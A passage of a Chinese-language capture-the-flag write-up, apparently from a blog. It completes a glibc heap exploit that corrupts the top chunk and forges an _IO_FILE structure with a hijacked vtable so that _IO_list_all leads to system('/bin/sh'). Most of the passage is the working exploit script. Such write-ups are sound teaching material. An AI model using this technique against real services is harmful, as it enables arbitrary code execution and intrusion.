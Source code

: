 最后就是`overflow`的值了

这里有两个选择，一是可以直接填写一个 one_gadget

或者我们可以回忆一下，overflow 函数调用时的样子

![](https://static.hack1s.fun/images/2021/11/06/image-20211106221829226.png)

实际上调用的参数是`fp`，也就是最开始的 flags

毕竟整个`_IO_FILE`都是我们伪造的内容，因此这个`flags`也可以直接控制

那么另一个简单的方法就是修改为

```
flags = b"/bin/sh\x00"
overflow = libc.sym.system

```

那么最终完整的部分为

```
#----- 修改Top Chunk得到一个Free chunk
small_malloc()
edit(b"Y"*0x18 + p64(0x1000-0x20+0x1))
large_malloc()

#-----伪造IO_FILE劫持vtable
payload = b"Y"*0x10
flag = b'/bin/sh\x00'

fake_size = p64(0x61)
fd = p64(0)
bk = p64(libc.sym._IO_list_all - 0x10)
write_base = p64(1)
write_ptr = p64(2)
mode = p32(0)
vtable = p64(heap + 0xd8)                                                                                                                             
overflow = p64(libc.sym.system)

payload = payload + flag
payload = payload + fake_size
payload = payload + fd
payload = payload + bk
payload = payload + write_base
payload = payload + write_ptr
payload = payload + p64(0)*18
payload = payload + mode + p32(0) + p64(0) + overflow
payload = payload + vtable

edit(payload)

#-----触发操作让unsortedbin被sort
small_malloc()

```
